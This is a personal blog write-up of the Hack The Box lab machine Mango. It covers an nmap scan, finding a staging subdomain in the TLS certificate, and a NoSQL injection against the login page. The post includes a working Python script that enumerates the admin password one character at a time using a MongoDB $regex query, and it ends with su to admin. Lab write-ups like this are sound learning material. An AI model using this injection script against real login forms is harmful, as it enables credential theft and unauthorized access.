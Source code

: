 ```yaml
---
title: "Hack The Box: Mango"
date: DATE
draft: false
tags: ["pentesting","Hack The Box"]
reads: 2
---
```

Mango was the first Hack The Box I got user access to! Hack the Box is a pentesting website.  To get in, I started off with a port scan to see what services were running. 
```
namp -sC -sC -oA mango 10.10.10.162
# Nmap 7.80 scan initiated Wed Dec 18 10:44:55 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 10:45:11 2019 -- 1 IP address (1 host up) scanned in 15.62 seconds
```


From the scan I knew there were two http/https servers and ssh was running. I  looked at what was hosted on these web servers.  On port 80 I didn't find anything. But on port, 443 I found a website that looked like a clone of the google search page. I ran gobuster against the server on port 80 but did not find any webpages.

![search page](/img/mango/search.png)

The only link on the page that went anywhere was the Analytics button. I was a type of business analytics software called [Mango Solutions](https://mango-solutions.com).
![analytics screenshot](/img/mango/analytics.png)


I looked up Mango Solutions in [exploit db](https://www.exploit-db.com) but I didn't find anything that was applicable. I tried uploading malformed data to see if I could exploit the webservice but there where no interesting error messages. I then took a look at the ssl certificate and found another subdomain.
![cert.png](/img/mango/cert.png)
So I changed my /etc/hosts to include the new domain.
```
10.10.10.162 staging-order.mango.htb
10.10.10.162 mango.htb
```
When I pointed the browser at staging-order.mango.htb, I found a login page.
![login screen](/img/mango/login.jpg)
I then tried to different types of injections on the login in page. I eventually stumbled upon the nosql injections on [payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings). And I was able to get passwords for the accounts mango and admin. I guessed that there was an account with the username admin.
``` python
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username,
                             'password[$regex]':"^" + payload,
                             'login':'login'}
                print(payload)
                r = requests.post(url,
                                  data=post_data,
                                  allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)

                        exit(0)
                    break
```
This script works because we can make unauthenticated requests to mongo db. By using a regular expression to match on the first characters of the password, we can enumerate the password. The http status code 302 tells us that our prefix matches the password. Using the found admin credentials I was an unable to  ssh onto the box. I was able to get onto to the box using the mangos credentials. However, I realized that the `user.txt` was only readable by the admin account. I tried logging in locally using the admin creds and I got access to the user.txt.
```
su admin
```
